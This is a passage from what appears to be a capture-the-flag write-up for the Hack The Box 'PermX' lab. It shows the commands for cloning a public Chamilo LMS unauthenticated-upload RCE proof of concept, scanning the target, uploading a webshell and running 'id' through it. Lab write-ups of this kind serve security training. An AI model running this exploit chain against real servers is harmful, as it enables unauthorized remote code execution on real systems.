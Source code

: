 According to the exploit description we can upload arbitrary
files to the server without needing authentication. If
we can upload a webshell we can run arbitrary commands on the
server!

Copy the repo onto your machine

```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
```

Reading the code or the repo description we see an option
which verifies if a target is vulnerable. It's always good
to verify before running an exploit so let's run a scan

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![exploit scan](/images/permx/exploit-scan.png)

The target is vulnerable! Run the exploit and the script
will upload a webshell

```bash
python3 main.py -u http://lms.permx.htb -a webshell
```

![webshell name](/images/permx/webshell-name.png)

![webshell path](/images/permx/webshell-path.png)

We're given the webshel path so let's run the `id`
command to verify command execution

```
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=id
```

![webshell test](/images/permx/webshell-test.png)
